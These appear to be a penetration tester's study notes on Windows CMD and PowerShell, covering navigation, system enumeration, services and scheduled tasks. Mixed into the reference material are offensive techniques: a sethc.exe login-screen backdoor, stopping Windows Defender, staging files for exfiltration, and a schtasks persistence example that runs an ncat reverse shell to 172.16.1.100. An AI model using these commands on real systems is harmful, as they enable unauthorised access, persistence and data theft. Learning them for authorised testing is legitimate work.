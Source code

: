 # Introduction to Windows Command Line
The scope of this module is how to navigate and administer a windows host from the commandline. These notes a written from a penetration testers perspective so the focus will be on reconnaissance, exploitation and exfiltration of data.

While tools exits to make navigating on windows machines easier for linux users, these tools usually leave traces on the host machine of our presence. What we instead can do is to "live of the land" which means using build-in commands and functionality to do our work, instead of relying on outside tools that may expose us.

## Cheat Sheet 
Useful commands will be listed in this table for the ease of use. 

### CMD
| Command | Purpose |
| ------- | --------| 
| dir | print directory |
| help  | displays a list of built-ins  |
| help \<commandName> |dispaly helpul information about the <commandName> |
| cls | clears the command prompt |
| systeminfo | prints information about the system | 
| ipconfig | shows networking information |
| doskey /history | prints a history of used commands | 
| cd | prints current working directory |
| cd \<dir>| change directory to the dir in argument | 
| tree | explore the file system tree with your current working directory as the root | 
| md or mkdir | creates a subdir in the current working directory with the name given in argument 1 |
| rd or rmdir | does the opposite of md and mkdir, it removes the directory specified in argument 1 |
| find "string" | like grep on Linux |
| del or erase | deletion tool | 

## Command Prompt vs Powershell
### Command Prompt
The command prompt was released in 1981 and have a lot of limitation compared to its younger brother "Powershell". Command Prompt does for example not support aliases for its command, it cannot pass command output to a new command.
Commands has to be run one at a time. 
* Output is pure text

### Powershell 
* Can use command aliases.
* cmdlet output can be passed to another cmdlet
* All output is in the form of an object
* Can execute a sequence of commands
* Has an integrated Scripting Enviroment 
* Works on Linux


## Command Prompt Basics
The command prompt binary is called cmd.exe or CMD.exe windows have a casual attitude towards capitalized letters. It is based on the COMMAND.COM interpreter in DOS.

### Access CMD
windows key + r type `cmd`
executing the executable from its path:
`C:\Windows\System32\cmd.exe`

### Basic Usage
Use the command `dir` to look around the the current directory, which should be denoted `C:\Users\<userName>`.   

#### Windows Recovery Trick
When booting from a windows installation disk we can initialize repair mode which launches a command prompt. From here we can overwrite the `sethc.exe` executeable with the `cmd.exe` now when we are at the login  screen we can press **shift** 5 times to open a command prompt with NT 

### Getting Help
When having trobule in the Command Prompt the `help` command is a useful tool with an argument is prints a list of system built-ins commands and gives a short despriction of their purpose. If you call the help command with another built-ins command as the argument it will display helpful information about the built-in command.

Some commands dont have a detailed section for the `help` command, but a reference to their own like `ipconfig` 
```
> help ipconfig

This command is not supported by the help utility. Try "ipconfig /?".
```

### History 
Come on, don't look at a mans CLI history... Well if you have to then use `doskey /history`
It will print a newline terminated list with previous commands regardless of the commands where valid or not. 

#### shortcuts
| key | description | 
| --- | ----------- |
| page up | Place the first command in the history | 
| page down | place the last command in the history | 
| up arrow | scroll one command back in the hisotry | 
| down arrow | scroll one command forward in the history |
| right arrow | Types the previous command one char at a time |
| F3 | retype previous command | 
| F5 | cycle through previous commands | 
| F7 | Opens an interactive list of previous commands |
| F9 | Enter a command to our prompt based on number, number corrosponds to commands in our history |

### Exit a Process
like with linux **ctrl + c** will abort a running process  

## System Navigation
we can use `cd` or `chdir` with arguments to print our current working directory.
To change directory we can add the directory we want to move to, to the 1st argument of `cd` to move there. 

Note that `C:\` is the root directory of a Windows machine. Historically drive A and B were for floppy disk so the thirds drive C was the harddrive. On modern computers there are no longer floppy disk slots but C:\ being the root of the windows system is still the case for legacy reasons.

Like Linux, Windows can also use relative and absolute pathing. Remember to note what drive you are in when using absolute paths. 

Using the `tree` command we can print a comprehensive view of the filesystem tree with our current working directory as the root of the tree.
with the `/F` parameter we can also get the files in the folders with the `tree` command

### Interesting Directories

| Name: |	Location:¨|	Description:|
|--|---|---
%SYSTEMROOT%\Temp |	C:\Windows\Temp |	Global directory containing temporary system files accessible to all users on the system. All users, regardless of authority, are provided full read, write, and execute permissions in this directory. Useful for dropping files as a low-privilege user on the system. |
|%TEMP% |	C:\Users\<user>\AppData\Local\Temp |	Local directory containing a user's temporary files accessible only to the user account that it is attached to. Provides full ownership to the user that owns this folder. Useful when the attacker gains control of a local/domain joined user account.|
| %PUBLIC% |	C:\Users\Public |	Publicly accessible directory allowing any interactive logon account full access to read, write, modify, execute, etc., files and subfolders within the directory. Alternative to the global Windows Temp Directory as it's less likely to be monitored for suspicious activity. |
|%ProgramFiles% |	C:\Program Files |	folder containing all 64-bit applications installed on the system. Useful for seeing what kind of applications are installed on the target system. |
|%ProgramFiles(x86)% |	C:\Program Files (x86) |	Folder containing all 32-bit applications installed on the system. Useful for seeing what kind of applications are installed on the target system.|


### Managing Directories
With the command `md <dirName>` we can create a directory. `md` is short for `mkdir` which performs the same operation.

we can remove directories with the `rd` or `rmdir` commands.

Trying to remove a non-empty directory will result in failure however. Unless given the paramter `/S`. 

#### Modify
Directories holds data, other directories, and files which also holds data. Therefore modifying them is a complex task that we let commands do for us:
* Move 
* Robocopy
* xcopy

`move <source> <destination>` like its Linux cousin `mv` we input 1st what we want to move, then as 2nd argument where we want to move it to.

`xcopy <source> <destination>` Like the name implies this command copies the source file to the destination. If given a directory xcopy will copy files and subdirectories however not empty subdirectories unless `/E` is given. xcopy will reset file and dir attributes unles the `/K` switch is passed.

`robocopy`is the successor of xcopy with more options and utilities. 
robocopy can move accross drives and networks while stile maintaining file data, attributes, ownership, ACLs, and any flags set like hidden or read-only.

If a user does not have permission to copy files we can use the `/MIR` switch, this will however mark the files as backup and hide them, which can be prevented with the `/A-:SH`(attribute show hidden). If you dont want to commit to the copy you can use the `/L` to see a preview of the operation without it executing, a good idea if you are not 100% certain of what you are doing. 

example:
`robocopy /E /MIR /A-:SH C:\Users\htb\Desktop\notes\ C:\Users\htb\Documents\Backup\Files-to-exfil\`

### Files
The `more` command displays the content of a file starting from the head until the terminal cannot show more, you can scroll further in the file with enter. Use the switch `/S` to crunch blanks spaces down to a single line.

outputs can be piped to more with the `|` symbol `ipconfig | more`

`openfiles` is an admin command that lets us see what files the users on our host has opened

`type` can display the contents of multiple text files at once. It uses a non locking operation to do so. 

`type` can also direct its output to other files `type secrets.txt >> exposed.txt`

#### Create and modify 
`echo` can be used to print something to the terminal and like on Linux can be used to write and append to a file 

`echo something > text.txt` 

`echo more things >> text.txt`

`fsutil` filesystem utility lets us create a file. 

`fsutil createNew for-sure.txt 222`

`ren` ren(ame) allows the user to rename a file (arg1) to something else (arg2)

#### Input / Output

**<, >, |, &** can be used to direct input and output to and from commands. 

**&&** can be used between two statemenets to run statement a and if it succeeds run b

**||** can be used similiarly but statement b only gets executed if a fails. 

#### Deleting Files
For deletion we can use `del` which also has the alias `erase`.  
```
> help erase
Deletes one or more files.

DEL [/P] [/F] [/S] [/Q] [/A[[:]attributes]] names
ERASE [/P] [/F] [/S] [/Q] [/A[[:]attributes]] names
  /P            Prompts for confirmation before deleting each file.
  /F            Force deleting of read-only files.
  /S            Delete specified files from all subdirectories.
  /Q            Quiet mode, do not ask if ok to delete on global wildcard
  /A            Selects files to delete based on attributes
  attributes    R  Read-only files            S  System files
                H  Hidden files               A  Files ready for archiving
                I  Not content indexed Files  L  Reparse Points
                O  Offline files              -  Prefix meaning not
```

#### Copying and moving files
cope and move can be used for these desired operations.
use /v to increase verbosity given you validation after the operation.

## System Information
Now that we have found our feet on a windows host it is time to **Gather System Information.**

In *any* offensive scenario it is important to enumerate the systems which are targeted. This can be done from outside but certainly also from the inside.

What kind of information could be interesting?

* General System Information
* Networking Information
* Basic Domain Information
* User Information

These are not the only types of information that can prove useful, but it does give us an idea of what kind of information that is relevant and what is not. 

**REMEMBER** to stay in scope! Your white hat can easily stain if you forget the scope and stick your nose in data you are not at liberty to see.

### How to get Information
#### The Big One
`systeminfo` I don't even have to tell you what this does, for you to know this might be useful command, right?

* Host-Name
* Operating Systen information
* Hardware Information
* Timezone
* Language(keyboard input, System)
* Hotfixes
* Network Card information

Thats a lot of information. 

#### The Others
`hostname` prints the hostname

`ver` what version of windows the system is running. 

`ipconfig` Network information

`arp /a` Prints the content of the systems Address Resolution Protocol cache 

`whoami` display the username of the user currently logged in. 

`whoami /priv` what are my priviledges

`whoami /groups`what groups am i part of 

`net user` display a list of all users on the host.

`net group` (only works on a windows domain controller) display information about groups on the host

`net localgroup` can be run on any windows host. Display information about groups on the host

`net share` view or create shared resources on the host.

`new view` 

## Finding Files and Directories

* `where` we can use where to find files that we input to it, if they exist in or cwd or paths. `where flag.txt` is a good one for CTF's
  * `where /R <path> <file> ` to find files Recursivly in a directory.
* `find <search-string> <path-to-file>` 
  * /V print any line that does NOT contain the search-string
  * /N print line number with the matched string
  * /I disable case sensitivity
* `findstr`is a grep like command
* `comp` compare files
* `fc` a more comprehensive tool for comparing files
* `sort` sort agr1 can be directed with the output switch /O 
  * `sort /unique` no dublets

## Environment Variables
`%SUPER_IMPORTANT_VARIABLE%` Capital letter with underscore for spacing is a standard, not a requirement for Environment Variables. 

Global vs Local Variables.
* Global: The data can be accessed from anywhere
* Local: The data can only be referenced inside the scope it was declared.

the `%WINDIR%` variable is a global variable that any user can call to get the path to the `Windows` directory.

If user A was to identify a variable like 
```
>set SECRET=FLAG{This_is_it!}
>echo %SECRET%
{This_is_it!}
```
But when i log in as user B
```
>echo %SECRET%
%SECRET%
```

Another type is scoping is the System scope and the user scope.

There is also the more volatile scope that is called the process scope. 

|Scope | 	Description |	Permissions Required to Access |	Registry Location |
| ----| ---- | ---- | ----- |
| System  (Machine) |	The System scope contains environment variables defined by the Operating System (OS) and are accessible globally by all users and accounts that log on to the system. The OS requires these variables to function properly and are loaded upon runtime. |	Local Administrator or Domain Administrator |	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment |
|User |	The User scope contains environment variables defined by the currently active user and are only accessible to them, not other users who can log on to the same system. |	Current Active User, Local Administrator, or Domain Administrator 	| HKEY_CURRENT_USER\Environment |
| Process |	The Process scope contains environment variables that are defined and accessible in the context of the currently running process. Due to their transient nature, their lifetime only lasts for the currently running process in which they were initially defined. They also inherit variables from the System/User Scopes and the parent process that spawns it (only if it is a child process).| 	Current Child Process, Parent Process, or Current Active User |	None (Stored in Process Memory)|

we can use `set` and `echo` to view the data in a variable.

### set and setx
`set` can be used to display, set and remove environment variables, but it only work in the current scope. 

`setx` makes permanent changes to the registry. 

#### Removing Varibales
setting a variable to an empty string is the way to delete them
`setx DCIP ""`

### Important Variables
| Variable Name | 	Description | 
|  --------- |  -------------- | 
| %PATH% | 	Specifies a set of directories(locations) where executable programs are located.| 
| %OS% | 	The current operating system on the user's workstation.| 
| %SYSTEMROOT% | 	Expands to C:\Windows. A system-defined read-only variable containing the Windows system folder. Anything Windows considers important to its core functionality is found here, including important data, core system binaries, and configuration files.| 
| %LOGONSERVER% | 	Provides us with the login server for the currently active user followed by the machine's hostname. We can use this information to know if a machine is joined to a domain or workgroup.| 
| %USERPROFILE% | 	Provides us with the location of the currently active user's home directory. Expands to C:\Users\{username}.| 
| %ProgramFiles% | 	Equivalent of C:\Program Files. This location is where all the programs are installed on an x64 based system.| 
| %ProgramFiles(x86)% | 	Equivalent of C:\Program Files (x86). This location is where all 32-bit programs running under WOW64 are installed. Note that this variable is only accessible on a 64-bit host. It can be used to indicate what kind of host we are interacting with. (x86 vs. x64 architecture) | 

## Managing Services
The service controller program `sc` allows the user to: 
* Determine what services are running
* Modify existing services
* disable/ enable running services

`sc` works by giving it queries. We can query it by:
* process state
* process id
* service type

`sc query type= service` lists all running services ( Notice the space between `=` and "service" syntax wise this space is not optional! )

`sc query windefend` displays windefend also known as Windows Defender.

`sc stop windefend` stops the specified process, might require admin priviledges or even System.

`sc start windefend` starts the specified process, might require admin priviledges

we can also configure services with sc:
`sc config wuauserv start= disabled` we have now disabled this service (windows update) so it cant start.

if someone tries 
```
sc start wuauserv
[SC] StartService FAILED 1058:

The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.
``` 
This can be very useful if the host you are doing this on is running outdated software, which you intend to exploit.

you can undo the disabled command with a new start type `start= auto`

Remember to be careful. Disabling services is bound to be monitorized by a good blue team especially the essential services that comes with Windows. 

### Tasklist
`tasklist` can be used to print all running processe to the terminal. pipe with `| find "something"` to filter.
use the `/svc` switch to only list running services.


### Net Start
`net start` list all running services on our system. `net stop` `net pause` `net continue` are also valid commands with `net`.

### WMIC 
The Windows Management Instrumental Command is a big CLI executable with a lot of features. 
`wmic service list brief`
(This tool is however deprecated)

## Working with Scheduled Tasks
Scheduled Tasks is as the name implies: command(s) that are set to run in an automated frequency. 

These are great for automating maintainance on a system.
* Deleting old log files
* Taking backups 
* Health Checks

But they can also be used for malicious activities. Like persistance on a system. 

### Triggers That Can Kick Off a Scheduled Task
* When a specific system event occurs.
* At a specific time.
* At a specific time on a daily schedule.
* At a specific time on a weekly schedule.
* At a specific time on a monthly schedule.
* At a specific time on a monthly day-of-week schedule.
* When the computer enters an idle state.
* When the task is registered.
* When the system is booted.
* When a user logs on.
* When a Terminal Server session changes state.

### How to Utilize Scheduled Tasks 
`schtasks` 

### Query Syntax
| Action | 	Parameter |	Description |
| ----- | --------- |------------- |
|Query 	|	|Performs a local or remote host search to determine what scheduled tasks exist. Due to permissions, not all tasks may be seen by a normal user.|
|	|/fo 	|Sets formatting options. We can specify to show results in the Table, List, or CSV output.|
||	/v 	|Sets verbosity to on, displaying the advanced properties set in displayed tasks when used with the List or CSV output parameter.|
||	/nh 	|Simplifies the output using the Table or CSV output format. This switch removes the column headers.|
||	/s 	|Sets the DNS name or IP address of the host we want to connect to. Localhost is the default specified. If /s is utilized, we are connecting to a remote host and must format it as "\\\host".|
||	/u 	|This switch will tell schtasks to run the following command with the permission set of the user specified.|
||	/p 	|Sets the password in use for command execution when we specify a user to run the task. Users must be members of the Administrator's group on the host (or in the domain). The u and p values are only valid when used with the s parameter.|

`SCHTASKS /Query /V /FO list` this command can be run with 

### Create Syntax
|Action |	Parameter |	Description |
| ----- | ------- | ---------- |
|Create |	|	Schedules a task to run.|
||	/sc |	Sets the schedule type. It can be by the minute, hourly, weekly, and much more. Be sure to check the options parameters.|
||	/tn |	Sets the name for the task we are building. Each task must have a unique name.|
||	/tr |	Sets the trigger and task that should be run. This can be an executable, script, or batch file.|
||	/s 	|Specify the host to run on, much like in Query.|
||	/u 	|Specifies the local user or domain user to utilize |
||	/p 	|Sets the Password of the user-specified.|
||	/mo |	Allows us to set a modifier to run within our set schedule. For example, every 5 hours every other day. |
||	/rl |	Allows us to limit the privileges of the task. Options here are limited access and Highest. Limited is the default value.|
||	/z |	Will set the task to be deleted after completion of its actions.|

Example:

`schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100 -e cmd.exe"` This scheduled task will triger on startup, be called "My Secret Task" and run ncat.exe with 172.16.1.100 (ip) and 8100 (port).

### Change Syntax
|Action |	Parameter |	Description|
|----- |	----- |	-----|
|Change| |		Allows for modifying existing scheduled tasks.|
||	/tn |	Designates the task to change|
||	/tr |	Modifies the program or action that the task runs.|
||	/ENABLE |	Change the state of the task to Enabled.|
||	/DISABLE |	Change the state of the task to Disabled.|

### Delete Syntax
|Action |	Parameter |	Description|
|------|---------|----------|
|Delete|| 		Remove a task from the schedule|
||	/tn| 	Identifies the task to delete.|
||	/s 	|Specifies the name or IP address to delete the task from.|
||	/u 	|Specifies the user to run the task as.|
||	/p 	|Specifies the password to run the task as.|
||	/f 	|Stops the confirmation warning.|


# CMD vs PowerShell
Up until now we have looked at the built-in windows command line cmd.exe. From now we will be looking at it successor PowerShell.

| Feature |	CMD |	PowerShell |
| ------ |------ |-----------|
|Language |	Batch and basic CMD commands only. |	PowerShell can interpret Batch, CMD, PS cmdlets, and aliases.|
|Command utilization |	The output from one command cannot be passed into another directly. |	The output from one command can be passed into another directly.|
|Command Output |	Text only |	PowerShell outputs in object formatting.|
|Parallel Execution |	CMD must finish one command before running another. |	PowerShell can multi-thread commands to run in parallel.|

PowerShell can be used to accomplish many task, among them:
*  Provisioning servers and installing server roles
*  Creating Active Directory user accounts for new employees
*  Managing Active Directory group permissions
*  Disabling and deleting Active Directory user accounts
*  Managing file share permissions
*  Interacting with Azure AD and Azure VMs
*  Creating, deleting, and monitoring directories & files
*  Gathering information about workstations and servers
*  Setting up Microsoft Exchange email inboxes for users (in the cloud &/or on-premises)

Powershell can be used from a terminal or Microsofts "IDE" Windows PowerShell Integrated Scripting Enviroment (ISE). 

## Prompt
Powershell commands use the `verb-noun` naming convention as you will see here.

`Get-Help` to get help with a cmdlet. 
the switch `-Online` can be used to source the help from the online repository instead of the local, ensuring the most up to date help.

`Update-Help` can be used to update the local `Get-Help` repository. 

### Navigating 
`Get-Location` print curret working directory.

`Get-ChildItem` Print items inside your current working directory.

`Set-Location` change directory works with both absolute and relative paths

`Get-Content` reads the content of a file.

`Get-Command` Can be used to find cmdlets to can remember the name of. 
  * `Get-Command -verb get`
  * `Get-Command -noun windows*`

So now we know how to `Get-Help`, `Get-Command`,`Get-Content`, `Get-Childitem` and how to `Set-Location`.

`Get-History` can be used to get a list of your previous commands, along with an ID
using `r <id>` you can rerun the command with the id provided. 

`Clear-Host` can clear the terminal. Aliases: `cls` `clear`

#### Hotkeys
|HotKey |	Description |
| ------- |--------- |
|CTRL+R |	It makes for a searchable history. We can start typing after, and it will show us results that match previous commands.|
|CTRL+L |	Quick screen clear.|
|CTRL+ALT+Shift+? |	This will print the entire list of keyboard shortcuts PowerShell will recognize.
Escape 	When typing into the CLI, if you wish to clear the entire line, instead of holding backspace, you can just hit escape, which will erase the line. |
|↑ |	Scroll up through our previous history.|
|↓ |	Scroll down through our previous history.|
|F7 |	Brings up a TUI with a scrollable interactive history from our session.|


